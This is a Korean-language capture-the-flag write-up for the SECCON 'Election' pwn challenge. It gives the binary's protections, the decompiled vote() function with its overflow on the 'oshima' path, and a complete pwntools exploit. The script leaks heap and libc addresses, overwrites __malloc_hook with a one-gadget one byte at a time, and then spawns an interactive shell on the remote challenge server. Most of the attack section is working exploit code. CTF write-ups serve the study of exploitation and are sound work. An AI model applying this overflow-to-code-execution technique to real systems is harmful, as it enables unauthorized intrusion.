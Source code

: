 Election 200 (Solver : 54)
=============

### 1. Introduction

| RELRO      | STACK CANARY | NX         | PIE    | RPATH    | RUNPATH    | FILE     |
|------------|--------------|------------|--------|----------|------------|----------|
| Full RELRO | Canary found | NX enabled | No PIE | No RPATH | No RUNPATH | election | 

x64 바이너리이며 취약점은 쉬우나 leak이 힘들었다.

### 2. Vulnerability
```c
unsigned __int64 vote()
{
  const char *v0; // rsi
  const char **i; // [rsp+8h] [rbp-48h]
  char s1; // [rsp+10h] [rbp-40h]
  __int64 v4; // [rsp+30h] [rbp-20h]
  char v5; // [rsp+38h] [rbp-18h]
  unsigned __int64 v6; // [rsp+48h] [rbp-8h]

  v6 = __readfsqword(0x28u);
  v5 = 1;
  if ( (unsigned int)lv <= 2 )
  {
    lv = 2;
    printf("Show candidates? (Y/n) ");
    getnline(&s1, 32LL);
    v0 = "n";
    if ( strcasecmp(&s1, "n") )
    {
      puts("Candidates:");
      for ( i = (const char **)list; i; i = (const char **)i[1] )
      {
        v0 = *i;
        printf("* %s\n", *i);
      }
    }
    printf("Enter the name of the candidate.\n>> ", v0);
    getnline(&s1, 32LL);
    if ( !strcasecmp(&s1, "oshima") )
    {
      v4 = find_list("ojima", "oshima");
      if ( v4 )
      {
        printf("I'm not 'Oshima', but 'Ojima'!\nWould you modify the name and re-vote?\n>> ");
        getnline(&s1, 48LL);
        if ( !strcasecmp(&s1, "yes") )
          *(_DWORD *)(v4 + 16) += v5;
      }
    }
    else
    {
      v4 = find_list(&s1, "oshima");
      if ( v4 )
      {
        *(_DWORD *)(v4 + 16) += v5;
      }
      else
      {
        printf("'%s' is invalid vote :(\n", &s1);
        ++inv_votes;
      }
    }
  }
  else
  {
    puts("The voting has already closed.");
  }
  return __readfsqword(0x28u) ^ v6;
}
```
위 소스에서 oshima를 입력할 때 bof가 발생하여 v4와 v5값을 덮을 수 있다. 즉 원하는곳에 1바이트를 쓰는것이 가능하다.

### 3. Exploit

처음 생각한 솔루션은 candidate list의 pointer를 덮어서 leak을 하고 힙 내용을 잘 맞춰줘서 한번더 bof를 이용해 malloc_hook에 oneshot을 쓰려했다. 하지만 널바이트가 존재하면 입력을 그만받기때문에 한번 릭을 하고서 bof를 다시 발생시키기 어려웠다.

그래서 leak을 불러오는 chunk의 마지막 1바이트를 "\x00"로 설정해서 가장 마지막에 있는 청크를 불러와 1씩 더해줘서 heap을 leak했다. heap leak이 성공하면 그걸로 libc를 leak malloc_hook에다가 oneshot을 넣어주면 exploit할 수 있다.
```python
from ntpwn import *

#s = process('./election')
s = remote('election.pwn.seccon.jp',28349)
e = ELF('./election')
l = ELF('/lib/x86_64-linux-gnu/libc.so.6')

'''
b = BP(s)
b.bp('tracemalloc on')
b.bp64(0xba1)
b.bp('c')
b.done()
'''

prompt = '>>'
lv = 0x602010

def stand(name):
	s.sendlineafter(prompt,'1')
	s.sendlineafter(prompt,name)

def vote(yn,candidate):
	s.sendlineafter(prompt,'2')
	s.sendlineafter(' (Y/n) ',yn)
	s.sendlineafter(prompt,candidate)

def result():
	s.sendlineafter(prompt,'3')

stand(p64(e.got['puts']))

# Tatsumi -> name_pointer + 0x20
for i in range(0x20):
	vote('Y','oshima')
	s.sendafter(prompt,"yes\x00\x00\x00\x00\x00" +  "A" * 0x18)

# Leak Heap
s.sendafter(prompt,'2')
s.sendafter('n)','Y')
s.recvuntil('e\n* ')
heap_base = u32(s.recv(4)) - 0x70

# 4byte -> 3byte
if heap_base % 0xa000000 < 0x1000000 :
	heap_base = heap_base % 0xa000000

log.info("HEAP BASE : " + hex(heap_base))

s.sendafter(prompt,'\x0a')

# Shinonome -> next_pointer + 0xb0 (puts_got)
for i in range(4):
	vote('n','oshima')
	s.sendafter(prompt,"yes\x00\x00\x00\x00\x00"+"A" * 0x18+p64(heap_base+0x58-0x10)+"\x38")

# Leak Libc
s.sendafter(prompt,'2')
s.sendafter('n)','Y')
s.recvuntil('e\n* ')
libc_base = u64(s.recv(6) + "\x00" * 2) - l.symbols['puts']
malloc_hook = libc_base + l.symbols['__malloc_hook']
oneshot = libc_base + 0xf0274

log.info("LIBC BASE : " + hex(libc_base))
log.info("ONESHOT : " + hex(oneshot))

s.sendafter(prompt,'\x0a')

# __malloc_hook -> oneshot
for i in range(6):
	vote('n','oshima')

	one_byte = u32(p64(oneshot)[i] + "\x00" * 3)

	if one_byte > 128:
		print "NoNo!!"
		exit()

	payload = "yes\x00\x00\x00\x00\x00"+"A" * 0x18+p64(malloc_hook-0x10+i) + p32(one_byte)

	s.sendafter(prompt,payload)

# lv -> 1
vote('n','oshima')
s.sendafter(prompt,"yes\x00\x00\x00\x00\x00"+"A" * 0x18+p64(lv-0x10)+"\xff")

pause()
# malloc triger
s.sendlineafter(prompt,'1')
s.sendlineafter(prompt,'NEXTLINE')

s.interactive()
```

### 4. Flag
![ex_screenshot](./flag/flag2.png)

